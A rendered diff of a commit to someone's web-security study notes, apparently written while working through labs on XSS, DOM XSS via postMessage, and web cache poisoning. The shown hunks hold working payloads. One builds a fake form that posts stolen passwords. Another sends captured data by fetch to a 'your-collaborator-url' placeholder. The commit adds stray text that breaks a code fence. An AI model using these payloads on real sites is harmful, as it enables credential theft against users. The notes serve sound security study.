

Before and after one commit to B310M0R/notes, a Markdown page: useful.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/useful.md
+++ b/useful.md
@@ -67,8 +102,9 @@ You can create new form in comment section to steal passwords
 method:'POST',
 mode: 'no-cors',
 body:username.value+':'+this.value
-});">
+});">document.write()
 ```
+
 7. Exploiting XSS to perform CSRF
 There is protection against CSRF, so we need to use the other user's CSRF token in our payload
 ```
@@ -260,5 +300,7 @@ When the iframe loads, the postMessage() method sends a web message to the home
 <iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
 ```
 3. DOM XSS using web messages and JSON.parse
+Target use web messaging and parses the message as JSON
+The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse()
 ```
 <iframe src="https://0a03009c03110946c0d1aea2003700e0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
@@ -728,7 +781,7 @@ X-Forwarded-For: 1.1.1.1
         fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
     };
 </script>
-```
+```1
 ## Web cache poisoning
 Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response. If you got only tracking.js without X-Cache - no cache poisoning here
 If you got both file and header, the first thing you should try is to inject your exploit server into Host: or X-Forwarded-Host: headers and check them in response
````
Also changed, not shown: other parts of useful.md (+66 -2 lines).
